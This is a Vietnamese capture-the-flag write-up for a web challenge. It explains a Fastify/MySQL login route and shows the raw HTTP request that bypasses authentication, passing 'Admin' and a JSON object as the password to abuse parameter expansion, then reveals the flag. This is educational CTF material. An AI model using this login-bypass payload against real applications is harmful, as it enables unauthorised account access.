


# Web - Vào đây!

# 1. Phân tích:

Link: http://103.163.25.143:20110/



Đây là một ví dụ về một ứng dụng web sử dụng framework Fastify và sử dụng `MySQL` để làm cơ sở dữ liệu. Đây là một ứng dụng đơn giản cho phép người dùng đăng nhập, đăng ký và truy xuất các tệp tin trên server.

Ứng dụng Fastify được khởi tạo và định nghĩa một số route như sau:

Route `/login` xử lý phương thức `POST` và kiểm tra thông tin đăng nhập. Nếu người dùng là 'admin', không có kiểm tra và kết quả trả về. Ngược lại, một truy vấn được thực thi để kiểm tra tên người dùng và mật khẩu trong cơ sở dữ liệu và kết quả được trả về.

Route `/register` xử lý phương thức `POST` và thực hiện việc đăng ký người dùng mới. Một truy vấn được thực thi để chèn thông tin người dùng vào cơ sở dữ liệu và kết quả được trả về.

Route `/` xử lý phương thức `GET` và trả về nội dung của tệp tin hiện tại (__filename).

# 2. Khai thác:

```
app.post('/login', async req => {
  if (req.body.user === 'admin') return;
  const [rows] = await dbPromisePool.query(`select *, bio as flag from users where username = ? and password = ? limit 1`, [req.body.user, req.body.pass])
  return rows[0]
})
```

Đoạn mã này kiểm tra tên người dùng và mật khẩu gửi từ phía client. Nếu tên người dùng là `admin`, không cần kiểm tra mật khẩu và không có thông tin người dùng được trả về. Trong trường hợp khác, nó sẽ thực hiện một truy vấn SQL để tìm kiếm người dùng trong cơ sở dữ liệu và trả về thông tin của người dùng nếu tìm thấy, ở đây chính là flag

Tìm kiếm với từ khóa `bypass sqli where username = ? and password = ?` ta có:



- Mã khai thác:

```
POST /login HTTP/1.1

Host: 103.163.25.143:20110

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Content-Type: application/json; charset=utf-8

Accept-Language: en-US,en;q=0.9

Connection: close

Content-Length: 50


{

	"user": "Admin",

	"pass":{"password": 1}

}
```

Phần `JSON` ta gửi lên sever ở `request body` của yêu cầu HTTP POST. Trong một yêu cầu HTTP, phần `request body` chứa dữ liệu được gửi lên sever. Ở đây ta gửi lên dưới dạng `JSON` nên mình cần `Content-Type: application/json; charset=utf-8`

Do trong source code sẽ kiểm tra user với các ký tự `admin` nên thay vì sử dụng tài khoản `admin` thì mình dùng `Admin` (được hint)

```
req.body.user === 'admin'
```

Và sử dụng format `"password":{"password": 1}` từ link `Login Bypass` khi nãy và sửa thành `"pass":{"password": 1}` do sever có các cột `user` và `pass` để lấy username và password 

```
[req.body.user, req.body.pass]
``` 


```
Flag: KMACTF{SQLInjection_That_La_Don_Gian}
```


